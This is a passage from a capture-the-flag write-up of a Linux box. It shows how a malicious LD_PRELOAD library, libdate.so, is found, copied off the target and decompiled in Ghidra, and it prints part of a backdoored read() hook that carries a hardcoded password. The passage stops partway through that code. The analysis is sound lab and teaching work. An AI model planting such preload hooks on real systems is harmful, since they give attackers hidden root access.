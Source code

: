 ## Path #2: Shell as root via LDPreload

### Enumeration

Another common hacker technique on Linux is to hook functions via `LDPRELOAD`. The file at `/etc/ld.so.preload` will give a list of files libraries to load first. Typically this file is empty:

```

sysadmin@compromised:~$ cat /etc/ld.so.preload 
/lib/x86_64-linux-gnu/libdate.so

```

I’ll pull that back for analysis.

```

root@kali# scp -i ~/keys/ed25519_gen mysql@10.10.10.207:/lib/x86_64-linux-gnu/libdate.so .
libdate.so                    100%   13KB 155.1KB/s   00:00

```

### Ghidra

Unlike the other file, which was a slightly modified legit library, this `.so` is attempting to hijack control over certain library calls. Because of it’s position in preload, if a call is made and it’s in this library, it will run this one. Otherwise, it will look in normal GLIBC and other shared objects for the function.

`libdate.so` exports a single function, `read`:

![image-20210118134549437](https://0xdfimages.gitlab.io/img/image-20210118134549437.png)

The `read` function looks like:

[![image-20210118140241107](https://0xdfimages.gitlab.io/img/image-20210118140241107.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20210118140241107.png)

I’ll clean this up. `DAT_00102000` holds the value “read”. `local_38` is a string that is used like a password.

```

ssize_t read(int __fd,void *__buf,size_t __nbytes)

{
  code *read_libc;
  ssize_t read_ret;
  char *backdoor;
  char password [16];
  
  read_libc = (code *)dlsym(0xffffffffffffffff,&read);
  read_ret = (*read_libc)((ulong)(uint)__fd,__buf,__nbytes,__buf,read_libc);
  password[0] = '2';
  password[1] = 'w';
  password[2] = 'k';
  password[3] = 'e';
  password[4] = 'O';
  password[5] = 'U';
  password[6] = '4';
  password[7] = 's';
  password[8] = 'j';
  password[9] = 'v';
  password[10] = '8';
  password[11] = '4';
  password[12] = 'o';
```